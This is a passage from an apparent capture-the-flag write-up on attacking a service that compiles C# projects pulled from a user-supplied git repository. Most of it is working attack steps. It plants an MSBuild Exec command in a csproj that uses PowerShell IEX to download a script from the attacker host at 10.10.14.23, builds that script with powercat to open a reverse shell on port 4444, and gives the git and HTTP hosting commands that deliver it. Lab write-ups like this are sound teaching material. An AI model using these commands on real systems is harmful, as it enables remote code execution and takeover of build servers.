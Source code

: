 Watch the network activity to see when the ping will be executed :

```shell
tcpdump -i tun0 -X
```

On the web interface, provide our git repository URL : [http://10.10.14.23:9090/](http://10.10.14.23:9090/)

And we get some ping on our attacker host, meaning the msbuild is executing our command !

Now, let's make it download a reverseshell :

```xml
    <Exec Command="C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.23:9001/revshell.ps1')" />
```

Now, we will setup a reverse shell :

- the application download the C# project from our local git repository
- the target application compiles the project 
- the command is executed from csproj file: download the payload
- the payload is executed and connect back to the attacker host for the reverse shell

The reverse shell from : [https://www.revshells.com/](https://www.revshells.com/)

- OS: Windows
- PowerShell #2

csproj :

```xml
<Exec Command="powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.23:9090/shell.ps1')"/>
```

push it to git :

```shell
git add . ; git commit -m "text" ; git push
```

Update the git repo and restart the server :

```shell
cd repo-visual ; git --bare update-server-info ; updog -p 9090
```

The HTTP server will host :
* repo-visual : the git repository
* `shell.ps1` : the reverse shell

For the reverseshell `shell.ps1`, we will use powercat : [https://github.com/besimorhino/powercat](https://github.com/besimorhino/powercat)

```shell
wget https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1
echo "powercat -c 10.10.14.23 -p 4444 -e powershell" >> shell.ps1
```

Start the reverse shell on port 4444 :
